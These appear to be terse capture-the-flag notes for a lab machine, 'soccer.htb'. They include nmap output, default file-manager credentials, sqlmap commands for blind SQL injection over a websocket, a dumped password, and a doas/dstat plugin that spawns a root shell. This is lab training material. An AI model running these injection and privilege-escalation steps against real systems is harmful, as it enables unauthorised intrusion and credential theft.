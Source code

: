 #sqlmap #websocket #doas #suid
```shell
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Fri, 27 Dec 2024 10:28:30 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Fri, 27 Dec 2024 10:28:30 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.94SVN%I=7%D=12/27%Time=676E8149%P=x86_64-pc-linux-gnu%
SF:r(informix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20clo
SF:se\r\n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnectio
SF:n:\x20close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Foun
SF:d\r\nContent-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Typ
SF:e-Options:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r
SF:\nContent-Length:\x20139\r\nDate:\x20Fri,\x2027\x20Dec\x202024\x2010:28
SF::30\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20
SF:lang=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>
SF:\n</head>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%
SF:r(HTTPOptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security
SF:-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:143\r\nDate:\x20Fri,\x2027\x20Dec\x202024\x2010:28:30\x20GMT\r\nConnect
SF:ion:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\
SF:n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<p
SF:re>Cannot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C
SF:,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20defau
SF:lt-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:
SF:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20F
SF:ri,\x2027\x20Dec\x202024\x2010:28:30\x20GMT\r\nConnection:\x20close\r\n
SF:\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset
SF:=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTI
SF:ONS\x20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTC
SF:P,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\
SF:n")%r(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:nection:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


# found an endpoint /tiny, it uses tinyfilemanager v2.4.3

# Default credentials 
admin:admin@123


# uploaded a reverse php shell

# Found soc-player.soccer.htb subdomain on /etc/nginx/sites-enabled



# soc-player.soccer.htb uses a websocket connection to check ticketid but has a blind-sql injection vulnerability,

# Intercepted all the request made from the /check


# Used sqlmap to dump the database

```shell
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"data":"*"}' --batch --level=4
# -u = websocket url
# --data = injectable payload, * replaced with the payload
# --level =  to perform more tests / payloads
# --batch = default , same with -y
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"*"}' --batch --level=4 -D soccer_db -T accounts --dump

```

# dumped database credentials
player:PlayerOftheMatch2022





#  the machine uses vulnerable version of snap 
snap    2.57.6
	https://nsfocusglobal.com/snapd-local-privilege-escalation-vulnerability-cve-2022-3328/



# Found a SUID file, doas which the as sudo, it allows a file to be executed as other user


# created a python script that creates an interactive shell on the /usr/local/share/dstat/dstat_<plugin_name>.py directory
```python
import os 

os.system("/bin/bash")
```


# then invoked the doas command 
```shell
doas /usr/bin/dstat --<plugin_name>
```